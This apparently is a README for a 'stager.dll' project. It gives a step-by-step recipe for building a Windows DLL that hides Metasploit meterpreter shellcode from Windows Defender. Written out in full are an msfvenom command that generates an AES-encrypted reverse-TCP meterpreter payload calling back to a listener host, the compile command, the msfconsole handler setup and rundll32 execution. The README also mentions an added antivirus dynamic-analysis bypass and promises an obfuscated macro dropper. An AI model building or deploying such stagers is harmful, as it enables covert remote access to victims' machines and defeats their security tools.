 # stager.dll
Code from this article: [https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)  

**HOW TO:**  
Get MSF5 from official repository (master branch - no official release yet at this time): [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)  

Generate payload that suits your needs, ex:  
```ruby msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.1.24 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c```  

Replace the payload in stager.cpp  and build the DLL on a Windows machine with ```cl /LD /MT /EHa stager.cpp aes.cpp```  

![https://phackt.com/public/images/stager/stager2.png](https://phackt.com/public/images/stager/stager2.png)  

*N.B: I added a dynamic analysis bypass taken from this article: [https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)*  

Now update meterpreter.rc and run:
```
ruby msfconsole -r <path_to_repo>/meterpreter.rc
```

Then run ```rundll32 stager.dll,Exec```  

![https://phackt.com/public/images/stager/stager1.png](https://phackt.com/public/images/stager/stager1.png)  



Soon i will write how to create a macro with an obfuscated powershell DLL dropper (Invoke-Obfuscation). Keep in touch.
